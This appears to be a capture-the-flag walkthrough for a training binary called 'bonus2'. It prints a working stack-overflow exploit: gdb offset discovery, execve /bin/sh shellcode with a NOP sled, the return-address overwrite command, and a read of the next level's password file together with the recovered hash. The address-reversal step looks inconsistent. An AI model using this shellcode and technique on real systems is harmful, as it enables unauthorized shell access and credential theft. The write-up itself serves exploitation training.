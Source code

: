 # Bonus 02 Walkthrough

## Binary analysis

The binary is vulnerable to a buffer overflow. By overflowing the buffer, we can overwrite the return address and redirect execution to shellcode placed in an environment variable, similar to previous levels. The offset to the return address is 23 bytes into the second argument.

## Exploitation

By browsing the code, we noticed we have two ways of overflowing up to the return address:
```
export LANG="nl"
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```
or
```
export LANG="fi"
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

With gdb and a cyclic pattern for the first method, we find the offset (23 bytes) to the return address.

```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(gdb) p/x $eip
$1 = 0x38614137
```

We export the shellcode in an environment variable.

```bash
export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
```

We find the address of the shellcode in the environment (using gdb and `x/2000s (char **)environ`).

```
(gdb) x/2000s (char **)environ
```

We overflow the buffer and overwrite the return address with the address of the shellcode:
```bash
./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 23 + "\xe6\xfe\xff\xbf"[::-1])')
```

## Commands used

```
./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 23 + "\xe6\xfe\xff\xbf"[::-1])')
cat /home/user/bonus3/.pass
```

## Result

After running the exploit, we get a shell as bonus3 and can read the password:

```
cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

